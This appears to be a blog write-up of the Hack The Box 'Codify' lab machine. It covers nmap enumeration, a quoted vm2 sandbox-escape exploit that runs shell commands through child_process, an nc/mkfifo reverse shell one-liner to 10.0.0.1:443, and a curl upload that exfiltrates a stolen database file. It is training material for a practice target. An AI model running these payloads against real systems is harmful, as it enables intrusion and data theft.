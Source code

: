 ```yaml
---
published: false
title: Hack The Box Codify Write Up
slug: htb-codify
category: Hacking
description: Write up for Codify machine on Hack the box
author: Leon
date: 2024-03-23
cover: /media/1 2zqbeP26SB5iDgOINWaPfQ-3674822343.png
---
```

![](/media/1202zqbeP26SB5iDgOINWaPfQ-3674822343.png)  
  
Port Enumeration:

We conducted a port scan to assess the available ports on the target IP using the following command:

```
nmap -p- --min-rate 5000 $TARGET -sV 
```

The scan results unveiled several open ports:

*   Port 22/tcp: Open, hosting an SSH service.
    
*   Port 80/tcp: Open, serving HTTP.
    
*   Port 8888/tcp: Open, possibly related to the Sun AnswerBook service.
    

These findings suggest potential points of entry into the system, with SSH, HTTP, and a less common port being accessible.

Web Enumeration:

Upon accessing the web server on port 80, we were redirected to "codify.htb". To ease further access, we added the domain to our 'etc/hosts' file.

Further investigation of the web server yielded limited results. Despite attempts with basic reverse shells and testing in code editors, we encountered challenges in making significant progress. Examination of the source code and directory paths via DirBuster confirmed the absence of additional accessible pages beyond the visible content.

During this exploration, we noted the utilization of VM2 for the code sandbox, suggesting potential avenues for exploitation.

Exploitation Discovery:

Research into known vulnerabilities for the Node.js library led to a post on GitHub ([https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244)) detailing a vulnerability in the `handleException()` function. This vulnerability enables escaping the sandbox and executing arbitrary code for VM2 versions up to 3.9.16.

The vulnerable code snippet is as follows:

```
const {VM} = require("vm2");
const vm = new VM();
const code =  err = {};
const handler = {
   getPrototypeOf(target) {
       (function stack() {
           new Error().stack;
           stack();
       })();
   }
};
const proxiedErr = new Proxy(err, handler);
try {
   throw proxiedErr;
} catch ({constructor: c}) {
   c.constructor('return process')().mainModule.require('child_process').execSync('YOUR BASH COMMAND');
}
console.log(vm.run(code));
```

Executing a bash command such as `ls` or `whoami` confirms the functionality of the code.

Now, it's time for Remote Code Execution (RCE)! I utilized the following payload for this purpose:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 443 >/tmp/f
```

This payload establishes a reverse shell to 10.0.0.1 on port 443.

Additionally, we discovered a database file located at `/var/www/contacts/tickets.db`. To exfiltrate the file, we utilized the following method:

```
# Listen to files
python3 -m pip install --user uploadserver
python3 -m uploadserver

# Send a file
curl -X POST http://HOST/upload -F 'files=@tickets.db' 
```

This process enables the transfer of the database file for further analysis and exploitation.